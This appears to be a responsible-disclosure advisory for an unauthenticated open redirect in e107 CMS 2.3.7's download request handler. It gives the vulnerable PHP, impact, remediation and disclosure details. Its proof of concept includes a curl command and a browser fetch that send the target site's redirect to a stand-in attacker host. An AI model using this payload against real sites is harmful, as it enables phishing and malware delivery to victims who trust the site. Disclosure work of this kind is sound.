

# e107 CMS 2.3.7 — Unauthenticated Open Redirect

> The download request handler forwards victims to **any external URL** supplied
> in the query string, using the trusted site domain as the redirector.

| | |
|---|---|
| **Product** | e107 CMS |
| **Affected version** | 2.3.7 (and prior 2.x sharing this code path) |
| **Vulnerability type** | Open Redirect (URL Redirection to Untrusted Site) |
| **CWE** | CWE-601 |
| **OWASP** | A01:2021 – Broken Access Control |
| **Authentication** | ❌ Not required |
| **User interaction** | ✅ Required (victim follows the link) |
| **Attack vector** | 🌐 Network / Remote |
| **CVSS v3.1** | **6.1 (Medium)** — `AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` |
| **Component** | `e107_plugins/download/request.php` |

---

## Summary

`download_request::request()` passes the **raw query string** straight into a
`Location` header whenever it begins with `http://`, `https://`, or `ftp://`,
with no destination validation:

```php
// e107_plugins/download/request.php
elseif((strpos(e_QUERY, "http://")  === 0)
    || (strpos(e_QUERY, "ftp://")   === 0)
    || (strpos(e_QUERY, "https://") === 0)) {
    header("location: " . e_QUERY);   // raw, attacker-controlled destination
    exit();
}
```

---

## Proof of Concept

```bash
curl -s -i "http://TARGET/e107/e107_plugins/download/request.php?https://attacker.example/pwn"
```
```http
HTTP/1.1 302 Found
location: https://attacker.example/pwn
```

**Browser confirmation** (redirect deliberately not followed — no external call):
```js
await fetch(base + '?https://attacker.example/pwn', {redirect:'manual'})
// response.type === 'opaqueredirect', status 0
```

### Evidence


---

## Exploit demo (animated)


---

## Impact

A link on the trusted site domain silently forwards victims to an
attacker-controlled site — enabling phishing / credential harvesting, malware
delivery, and abuse of same-site "return URL" trust (e.g. OAuth redirectors).

---

## Remediation

Do not emit a `Location` header built from the raw query string. Restrict
redirect destinations to the site host or an explicit allow-list, or remove the
"redirect to absolute URL" behaviour. Resolve any external download mirror only
from trusted, admin-configured records — never from request input.

---

## Files in this folder

| File | Description |
|------|-------------|
| `cve-request.txt` | Plain-text CVE request (MITRE format) with full PoC |
| `evidence/proof_F2_open_redirect.png` | Unauthenticated 302 to attacker URL |
| `evidence/open_redirect_demo.gif` | 4-frame animated exploit walkthrough |

## Disclosure

Found during an authorized localhost security assessment of e107 2.3.7.
All testing was performed against a local instance only; the redirect `Location`
header was observed **without following it**, so no external systems were
contacted. Reported for responsible disclosure to the e107 project.
